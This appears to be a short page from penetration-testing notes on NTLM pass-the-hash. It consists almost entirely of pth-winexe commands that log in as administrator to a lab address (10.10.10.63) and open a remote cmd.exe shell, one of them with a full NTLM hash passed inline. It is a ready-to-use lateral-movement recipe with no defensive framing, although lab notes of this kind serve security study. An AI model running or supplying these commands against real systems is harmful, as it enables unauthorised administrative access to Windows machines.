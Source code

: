 # NTLM \(Pass The Hash\)

```bash
pth-winexe -U administrator //10.10.10.63 cmd.exe
pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe

# When prompted use ntlm hash
# eg. hash = aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

pth-winexe -U jenkins/administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
```

![](../.gitbook/assets/image%20%2834%29.png)

